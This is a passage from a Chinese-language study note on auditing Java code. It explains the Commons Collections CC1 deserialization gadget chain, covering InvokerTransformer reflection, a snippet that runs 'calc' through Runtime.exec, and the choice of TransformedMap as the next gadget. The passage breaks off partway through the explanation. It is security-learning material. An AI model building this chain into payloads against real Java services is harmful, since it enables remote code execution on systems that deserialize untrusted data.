   }
  ```

- 该类的 transform 方法是通过反射获取我们所传入的对象的方法，然后进行调用（public 访问修饰的方法），故而叫 InvokerTransformer。其中的对象、方法名、 参数类型、参数都类型广泛，且都由我们控制，可调用任意对象的任意方法 我们很容易就写出下面的代码来弹计算器：

  - ```java
    import org.apache.commons.collections.functors.InvokerTransformer;
    
    public class CC1 {
        public static void main(String[] args) {
            InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
            invokerTransformer.transform(Runtime.getRuntime());
        }
    }
    
    ```

##### 寻找Gadget—TransformedMap类

- **按照思路，执行类找到了，接下来就要去找哪个类中有方法调用了**

- **重复找多次Gadget知道找到方法是在`readObject()`调用的。**

- **`InvokerTransformer.transform()`这个危险方法，通过 find usages 来看下：**

- ![image-20221028191434813](./java代码审计.assets/image-20221028191434813.png)

可以看到库中有17个方法，那哪些方法合适呢？

- 要求是要**能序列化**，参数类型广泛，**优先 readObject()(这样就直接找到了source类了)**。**我们的transformers对象要能传入到这个类当中（类的构造函数或者当前方法有这个参数）。**且方法名不应是 transform()，因为如果方法名是 transform()，那不就嵌套了吗，那我们找到的这个函数就没法调用了。
- 最后找到的6个类![image-20221028193318680](./java代码审计.assets/image-20221028193318680.png)

- 对应方法为

    - ```java
        TransformedPredicate.ecaluate()
        TransformerClosure.ecaluate()
        TransformerPredicate.ecaluate()
        DefaultedMap.get()
        LazyMap.get()
        TransformedMap.transformKey()
        TransformedMap.transformValue()
        TransformedMap.checkSetValue()
        ```

- 按照考量，我们优先选择 TransformedMap。首先它是 Map 系列，其次有多个方法调用到 transform()，机会更多。

**TransformedMap类: 扩展的Map类**

- **Commons  Collections 实现了一个TransformedMap类，该类是对Java标准数据结构Map(也就是python的字典，有key和value)接口的一个扩展**。**该类可以在一个元素被加入到集合内时，自动对该元素进行特定的修饰变换，具体的变换逻辑由Transformer类定义**，Transformer在TransformedMap实例化时作为参数传入。

- 通过 keyTransformer 和 valueTransformer 的 transform()方法分别对键和值进行修饰，这两个可由我们控制传入，只要是 Transformer 类型就行。其构造器是 protected 的，不能直接 new，但我们可以通过 pubulic 访问属性的静态方法 decorate()来获得对象实例。

    - ```java
        protected TransformedMap(Map map, Transformer keyTransformer, Transformer valueTransformer) {
            super(map);
            this.keyTransformer = keyTransformer;
            this.valueTransformer = valueTransformer;
  ```